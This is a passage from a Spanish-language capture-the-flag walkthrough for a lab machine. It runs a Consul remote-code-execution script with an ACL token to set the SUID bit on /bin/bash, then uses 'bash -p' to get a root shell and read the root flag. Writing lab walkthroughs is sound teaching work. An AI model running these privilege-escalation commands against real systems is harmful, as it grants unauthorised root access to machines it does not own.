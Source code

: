 En mi caso, voy a darle permisos *SUID* a la *bash*, para posteriormente *spawnearme* una *shell* como *root*:

```bash
python3 consul_rce.py -th 127.0.0.1 -tp 8500 -c 'chmod u+s /bin/bash' -ct bb03b43b-1d81-d62b-24b5-39540ee469b5
```

La petición **PUT** de **registro** tiene el siguiente aspecto:

![imagen 6](Pasted image 20230128121339.png)

Finalmente, ejecutaremos `bash -p`:

```bash
developer@ambassador:/tmp$ bash -p 
bash-5.0## whoami
root
```

### root.txt

Encontraremos el segunda *flag* en el *homedir* de *root*:

```bash
bash-5.0## cat root.txt 
137b1ee6091b1bf563244dacef5e3173
```






